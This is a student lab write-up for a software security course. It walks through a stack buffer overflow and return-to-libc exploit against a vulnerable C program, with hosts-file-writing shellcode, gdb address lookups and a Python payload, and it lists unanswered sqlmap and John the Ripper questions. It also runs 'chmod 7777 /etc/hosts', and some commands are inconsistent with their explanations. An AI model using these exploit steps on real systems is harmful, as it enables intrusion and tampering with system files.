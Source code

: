 # LAB#1, 22110093, Dinh Thi Thanh Vy, INSE331280E_02FIE
---

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 

**Run virtual environment by docker file**
![alt text](./image/image.png)

Copy file c and file asm called name vuln.c and run_file.asm

**Run C program**
```
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

-m32: biên dịch thành mã 32-bit vì shellcode là 32-bit.
-fno-stack-protector: tắt cơ chế bảo vệ stack.
-z execstack: cho phép thực thi mã trên stack (để chạy shellcode).

**Run asm file**
```
    nasm -g -f elf run_file.asm 
    ld -m elf_i386 -o run_file run_file.o
```

**Get shell code of run_file.asm by this command**
```
for i in $(objdump -d run_file.asm |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![alt text](./image/image-1.png)


We can use return-to-libc to solve the problem

Đặt biến môi trường 

```
export MYBUF="/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

```


Xem lại biến môi trường bằng câu lệnh

```
env | grep MYBUF
```

Connect gdb to find the address of system, exit and the value "/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

After run the program by in gdb:

```r``` 

find the address by this command step by step
```
p system
p exit
find /home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file
```

![alt text](image.png)

system: 0xf7e50db0
exit: 0xf7e449e0
/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file: 0xffffd933


Stackframe 
![alt text](./image/image-4.png)


Using the stack frame, we can calculate the payload to write:

`padding (20 bytes) + address of system + address of exit + address of MYBUF’s value (/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file)`

this command must to be: 

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```

exit gdb and connecting again

Run program by the command:

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```
Check /etc/hosts folder by:
```
sudo cat /etc/hosts
```
![alt text](./image/image-5.png)

Why isn’t Google.com’s address listed here?


We need to configure permissions for the `/etc/hosts file.`

Set permissions by the command:
```
sudo chmod 7777 /etc/hosts
```
- sudo: Runs the command as superuser (root).
- chmod 7777: Gives read, write, execute permissions to everyone, plus SUID, SGID, and sticky bit.
- /etc/hosts: A critical system file that maps hostnames to IP addresses.

Connect gdb and run program again:
![alt text](./image/image-6.png)

Check folder /etc/hosts again

![alt text](./image/image-7.png)

Successfully!


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
